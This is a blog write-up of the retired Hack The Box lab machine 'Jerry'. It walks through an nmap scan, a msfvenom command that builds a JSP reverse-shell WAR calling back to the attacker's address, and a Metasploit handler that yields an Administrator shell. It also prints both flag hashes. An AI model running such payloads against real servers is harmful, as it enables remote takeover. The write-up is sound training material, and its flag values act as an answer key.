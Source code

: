 Title:HTB: Jerry
Date: 09-12-2019 10:25
category:security
tags:security, boot2root, HTB, windows
meta:security, boot2root, HTB, windows

<img class="align-left" src="/media/2019.09/jerry_card.png" alt="Jerry card" width="262">

I started to work on [Hack The Box](www.hackthebox.com/) machines in 2018. This is a writeup for the
retired [Jerry](https://www.hackthebox.com/home/machines/profile/144) machine.

<!-- PELICAN_END_SUMMARY -->

# Hack the Box

In 2018 I started to play with [Hack the box](www.hackthebox.com). The principle
is similar to the [vulnhub](https://www.vulnhub.com/about/) machines: You got a
VM and have to root it. The main difference is that you are connected to a VPN 
nd the machines are shared between the users. Also, there is only 20 "active" VM
at a time. At the moment there is a total of 128 VM and therefore 108 retired.
Finally, nobody is publishing Writeup before the VM is retired.

One of the Drawback is that I completely forgot to write and publish this
writeup.

The Jerry machine is Windows server. This VM is classified as a trivial one. In
fact it is a really easy one.

# Network discovery

As usual, we start with a simple network scan using nmap in order to scan the
open TCP ports: Only the port 8080 is open with an HTTP service.

    :::text
    root@kalili:~# nmap -p- 10.10.10.95 -sSV
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-03 17:38 CET
    Nmap scan report for 10.10.10.95
    Host is up (0.019s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.41 seconds

When going to this page we see a simple Tomcat Application Manager.

![Tomcat application manager](/media/2019.09/jerry_2.png){: .image-process-article-image}


# Exploiting the administration interface

We generate a Java reverse shell payload using `msfvenom`:

    :::text
    root@kalili:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.14 LPORT=4444 -f war > reverse2.war

We start the handler using `metasploit`:

    :::text
    msf exploit(multi/handler) > use exploit/multi/handler 
    msf exploit(multi/handler) > show options 

    Module options (exploit/multi/handler):

      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------


    Payload options (java/jsp_shell_reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.15.14      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
      SHELL                   no        The system shell to use.


    Exploit target:

      Id  Name
      --  ----
      0   Wildcard Target

When running the War payload we got a shell as Administrator and we can start
listing the directories looking for the flags:

    :::text
    C:\apache-tomcat-7.0.88>dir c:\Users
    dir c:\Users
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users

    06/18/2018  10:31 PM    <DIR>          .
    06/18/2018  10:31 PM    <DIR>          ..
    06/18/2018  10:31 PM    <DIR>          Administrator
    08/22/2013  05:39 PM    <DIR>          Public
                  0 File(s)              0 bytes
                  4 Dir(s)  27,600,285,696 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\
    dir c:\Users\Administrator\Desktop\
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users\Administrator\Desktop

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:09 AM    <DIR>          flags
                  0 File(s)              0 bytes
                  3 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\flags
    dir c:\Users\Administrator\Desktop\flags
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

As we already are administrator we can read the flag for the two level:

    :::text
    Directory of c:\Users\Administrator\Desktop\flags

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:11 AM                88 2 for the price of 1.txt
                  1 File(s)             88 bytes
                  2 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>type c:\Users\Administrator\Desktop\flags\2*
    type c:\Users\Administrator\Desktop\flags\2*
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e


